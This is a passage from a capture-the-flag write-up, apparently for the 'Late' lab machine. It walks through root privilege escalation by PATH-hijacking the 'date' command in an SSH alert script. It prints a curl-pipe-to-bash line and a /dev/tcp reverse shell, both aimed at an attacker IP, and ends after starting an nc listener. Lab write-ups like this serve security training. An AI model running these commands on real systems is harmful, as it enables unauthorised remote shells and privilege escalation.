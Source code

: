 ```bash
svc_acc@late:/usr/local/sbin$ echo "curl 10.10.16.8 | bash" >> ssh-alert.sh 
-bash: ssh-alert.sh: Operation not permitted
```

So it fails for some reasons. checking the content of `ssh-alert.sh` file again we found that `data` and  `uname` commands are not used with their absolute path (full path). If any command is not used with its absolute path in any bash script, then it creates PATH hijacking vulnerability which often leads to privilege escalation. [more...](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)

```bash
svc_acc@late:/usr/local/sbin$ cat ssh-alert.sh 
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date` ## date command without a absolute path
        Server:      `uname -a` ## uname command without a absolute path
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
```

if we check the PATH environment variable:

```bash
svc_acc@late:/usr/local/sbin$ echo $PATH
/home/svc_acc/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

So it's clear enough now, I'll hijack the `date` command as follows:

```bash
svc_acc@late:/usr/local/sbin$ echo 'bash -i >& /dev/tcp/10.10.16.8/9002 0>&1' > date
```

then give it the executable permission:

```bash
svc_acc@late:/usr/local/sbin$ chmod +x date 
```

setup a nc listener:

```bash
[werz@Arch root]$ nc -lvnp 9002
```
